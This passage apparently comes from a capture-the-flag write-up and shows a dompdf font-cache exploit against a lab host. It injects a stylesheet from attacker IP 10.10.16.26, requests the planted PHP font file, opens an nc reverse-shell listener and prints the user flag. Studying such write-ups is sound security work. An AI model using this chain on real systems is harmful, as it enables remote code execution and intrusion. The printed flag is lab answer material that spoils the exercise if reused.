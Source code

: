 ```bash
"html":   "<link rel=stylesheet href='http://10.10.16.26/exploit.css'>"  
}  
```

#### `/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_0231eacba09bc4c54f7573512d14c42a.php`

```bash
GET /vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_0231eacba09bc4c54f7573512d14c42a.php  HTTP/1.1
Host: prd.m.rendering-api.interface.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en;q=0.7
Accept-Encoding: gzip, deflate
X-Forwarded-For: 10.10.16.26
Connection: close
Content-Length: 0


```

- Start up a reverse shell in preparation:

```bash
rlwrap nc -lvnp 4444
```

- Now execute the two `burp` requests in this order:
	- `/api/html2pdf`
		- After execution observe the hits on your `python` simple server.
	- `/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_0231eacba09bc4c54f7573512d14c42a.php`

![image](https://0xc0rvu5.github.io/docs/assets/images/20230312210044.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20230312210127.png)

- For the sake of `pspy64` let's repeat this process an additional time with a separate `port` and `md5sum`.
- We can navigate to `/home/dev` and grab the `user.txt` flag.

```bash
# activate clear functionality
export TERM=xterm
ls /home
cd /home/dev
cat /home/dev/user.txt

58aa856e616a3454d1bcc592d6ca6ff9
```
